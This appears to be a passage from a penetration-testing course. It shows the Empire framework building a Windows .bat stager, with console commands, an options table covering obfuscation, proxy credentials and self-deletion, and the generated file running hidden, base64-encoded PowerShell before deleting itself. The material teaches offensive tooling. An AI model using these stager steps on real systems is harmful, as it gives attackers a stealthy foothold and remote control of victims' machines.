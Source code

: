 (Empire: listeners) > usestager windows/launcher_bat

(Empire: stager/windows/launcher_bat) > info

Name: BAT Launcher
Description:
 Generates a self-deleting .bat launcher for
 Empire.
Options:
 Name Required Value Description
 ---- -------- ------- -----------
 Listener True Listener to generate stager for.
 OutFile False /tmp/launcher.bat File to output .bat launcher to,
 otherwise displayed on the screen.
 Obfuscate False False Switch. Obfuscate the launcher
 powershell code, uses the
ObfuscateCommand for obfuscation type
For powershell only.
 ObfuscateCommand False Token\All\1,Launcher\STDIN++\12467The Invoke-Obfuscatio
 Only used if Obfuscate switch is True
For powershell only.
 Language True powershell Language of the stager to generate.
 ProxyCreds False default Proxy credentials
 ([domain\]username:password) to use f
 request (default, none, or other).
 UserAgent False default User-agent string to use for the stag
 request (default, none, or other).
 Proxy False default Proxy to use for request (default, no
 or other).
 Delete False True Switch. Delete .bat after running.
 StagerRetries False 0 Times for the stager to retry
 connecting.
 

 We can configure the Listener parameter with the set command followed by the name of the listener we just created. 
 
 Finally, we’ll create the stager with execute as shown in Listing 827.

Empire: stager/windows/launcher_bat) > set Listener http

(Empire: stager/windows/launcher_bat) > execute

[*] Stager output written out to: /tmp/launcher.bat

(Empire: stager/windows/launcher_bat) >

To better understand the stager we just created, let’s take a look at the partial content of the generated launcher.bat file.

kali@kali:/opt/Empire$ cat /tmp/launcher.bat

@echo off

start /b powershell -noP -sta -w 1 -enc SQBGACgAJABQAFMAVgBlAHIAcwBp...

start /b "" cmd /c del "%~f0"&exit /b
